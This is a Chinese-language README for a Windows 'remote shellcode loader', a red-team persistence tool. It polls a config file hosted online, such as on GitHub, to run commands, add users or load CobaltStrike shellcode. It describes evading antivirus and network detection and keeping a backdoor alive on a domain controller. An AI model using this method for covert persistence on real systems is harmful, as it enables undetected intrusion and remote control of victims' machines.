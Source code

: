 # Remote ShellCode Loader

## 声明

本文所采用技术，仅用来实现自定义功能，适用场景仅为授权的测试中进行权限维持或为个人电脑添加定制化功能，如：启动开机时启动计算机器，方便实用~

***本文仅限技术研究与讨论，严禁用于非法用途，否则产生的一切后果自行承担。**

## 背景

​	在公司打下来域控，用了一种好玩的方法做了权限维持（只要我进程不存在，你就永远也不知道我在哪）。

​	特征极少，绕过了杀软，hids，nids，后门存活了两个多月。最终在威胁情报上遭遇了滑铁卢。

​	控制端C2是有几条威胁情报的，结合NIDS的流量，情报介入以后，异常外连直接被发现。于是诞生了这个工具（只要我不连接C2，威胁情报就永远发现不了我）

​	此处仅提供思路，可和DLL劫持、其他维权手段结合。在红蓝对抗的时候，能多一个选择~

## 使用

编译测试环境：

- WIN10 1909

- VS2019

./loader url

![image-20220513164025793](./README.assets/image-20220513164025793.png)

~~当然，你可以下载源码把url硬编码在代码中，这样连命令行特征都没有了。~~

## 功能

 ```yaml
 远端配置文件：
 sleep:10
 type:cmd
 value:cmd /c calc
 ```

- sleep: 休眠时间，下次获取服务端配置间隔（单位：秒）

- type: 有sleep、cmd、up、exit四种

  ​	~~value必填项，还没处理到这块，不需要value的随便填啥都可以~~

  - sleep	不执行任何操作。

    ![image-20220513164901190](./README.assets/image-20220513164901190.png)

  - cmd     执行命令 value 为要执行的命令。

    ![image-20220615103526984](./README.assets/image-20220615103526984.png)

  - up        执行shellcode上线 value为shellcode bin的16进制

    ![image-20220513165111697](./README.assets/image-20220513165111697.png)

  - exit      退出进程。

    ![image-20220513165019842](./README.assets/image-20220513165019842.png)

## 场景

我需要做隐蔽的权限维持，机器暂时不用，需要的时候上线。~~或者某些cdn上，比如，能上传txt的地方。。。~~

可以把配置文件丢github上，设一个4小时的sleep，需要的时候，修改配置文件

- 执行命令添加用户。

  ![image-20220615104154544](./README.assets/image-20220615104154544.png)

- 上线CobaltStrike

  ![image-20220513165450977](./README.assets/image-20220513165450977.png)



## 问题

已知问题

- 加载shellcode后创建线程执行，但是beacon退出后会exit整个进程（cmd方式无此问题）

  好像和CobaltStrike Beacon退出方式有关

- 仅支持X64

- 最后一行不能包含空格，因为是根据\n与\r判断换行符。在某些场景下，会出现问题。

- 没有经过严格测试，有bug



  

## ~~TODO~~

- [x] 接受带空格的命令【已支持】
- [ ] ~~线程退出后不影响进程~~



## 参考

https://github.com/curl/curl
